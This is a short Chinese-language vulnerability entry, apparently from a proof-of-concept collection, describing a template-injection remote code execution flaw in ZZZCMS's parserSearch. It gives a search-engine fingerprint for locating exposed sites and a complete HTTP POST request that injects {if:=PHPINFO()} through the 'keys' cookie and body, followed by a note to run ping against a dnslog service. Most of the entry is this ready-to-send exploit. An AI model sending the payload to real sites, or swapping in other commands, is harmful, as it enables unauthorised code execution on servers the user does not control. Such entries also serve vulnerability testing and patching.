

# ZZZCMS parserSearch 远程命令执行漏洞

## 漏洞描述

ZZZCMS parserSearch 存在模板注入导致远程命令执行漏洞

## 漏洞影响 

<a-checkbox checked>ZZZCMS</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="zzzcms"</a-checkbox></br>

## 漏洞复现

发送如下请求包命令执行


```plain
POST /?location=search HTTP/1.1
Host: 
Content-Length: 30
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=rbuhrqqhoctntnak8slkascqp1; keys=%7Bif%3A%3DPHPINFO%28%29%7D%7Bend+if%7D%0D%0A


keys={if:=PHPINFO()}{end if}
```


执行 ping dnslog


